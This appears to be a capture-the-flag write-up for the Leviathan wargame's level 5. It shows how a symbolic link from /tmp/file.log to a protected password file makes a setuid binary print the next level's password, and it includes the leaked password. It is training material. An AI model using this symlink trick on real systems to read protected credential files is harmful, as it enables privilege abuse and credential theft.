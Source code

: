 You know the drill. Let's look at what we're working with.

```sh
leviathan5@leviathan:~$ ls
leviathan5
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
leviathan5@leviathan:~$ file leviathan5 
leviathan5: setuid ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=ed6f1fe71c4b82ecb323211e4c9b79fa3f8c09ca, not stripped
```

Huh. "Cannot find /tmp/file.log". I wonder what happens if we were to spawn
that file. Of what significance is it to the binary?

```sh
leviathan5@leviathan:~$ touch /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
```

Okay... that did nothing. Let's ltrace it. Maybe I should try giving the file
some contents.

```sh
leviathan5@leviathan:~$ echo "x" > /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
x
```

Looks like it just outputs whatever contents are in the file. What if we were
to create a symbolic link between /tmp/file.log and the password for level 6?

```sh
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
UgaoFee4li
```
